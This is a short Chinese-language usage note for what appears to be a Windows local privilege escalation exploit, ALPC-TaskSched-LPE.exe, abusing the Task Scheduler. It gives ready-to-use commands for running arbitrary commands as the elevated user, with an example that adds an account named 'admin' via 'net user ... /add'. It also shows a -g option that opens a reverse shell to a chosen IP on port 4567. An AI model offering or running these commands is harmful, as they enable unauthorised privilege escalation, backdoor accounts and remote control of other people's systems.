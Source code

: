 随便写写大佬勿喷  
ALPC-TaskSched-LPE.exe -e "net user admin 1234567@ /add"  
这里我给限制成45个字符了懒得改了不改了要执行程序用请用绝对路径  
ALPC-TaskSched-LPE.exe -g ip 反弹到ip的4567端口  
